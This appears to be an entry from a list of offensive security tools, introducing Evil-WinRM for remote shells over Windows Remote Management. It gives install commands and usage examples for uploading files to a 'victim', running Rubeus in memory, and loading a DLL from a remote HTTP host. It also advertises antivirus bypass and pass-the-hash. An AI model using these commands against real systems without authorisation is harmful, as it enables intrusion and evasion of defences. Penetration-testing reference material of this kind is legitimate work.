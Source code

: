 Evil-WinRM is a tool that provides a command line interface for Windows Remote Management (WinRM: *A service that allows administrators to remotely execute commands on a Windows machine*).

Evil-WinRM allows an attacker to remotely connect to a Windows machine using WinRM and execute arbitrary commands.

Some features include:

- Loading in memory Powershell scripts
- Loading in memory dll files bypassing some AVs
- Loading x64 payloads
- Pass-the-hash support
- Uploading and downloading local and remote files


**Install: (Git)** 

```bash
sudo gem install winrm winrm-fs stringio logger fileutils
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
```

**Install: (Ruby gem)** 

```bash
gem install evil-winrm
```

Alternative installation instructions can be found [here](https://github.com/Hackplayers/evil-winrm#installation--quick-start-4-methods).

**Usage:** 

```bash
# Connect to 192.168.1.100 as Administrator with custom exe/ps1 download folder locations
evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

# Upload local files to victim
upload local_filename
upload local_filename destination_filename

# Download remote files to local machine
download remote_filename
download remote_filename destination_filename

# Execute .Net assembly into victim memory
Invoke-Binary /opt/csharp/Rubeus.exe

# Load DLL library into victim memory
Dll-Loader -http http://10.10.10.10/SharpSploit.dll
```

Full usage documentation can be found [here](https://github.com/Hackplayers/evil-winrm#documentation).

![image](https://user-images.githubusercontent.com/100603074/210266192-ad53c125-7b3b-4a91-89c1-01c42cb21ef3.png)
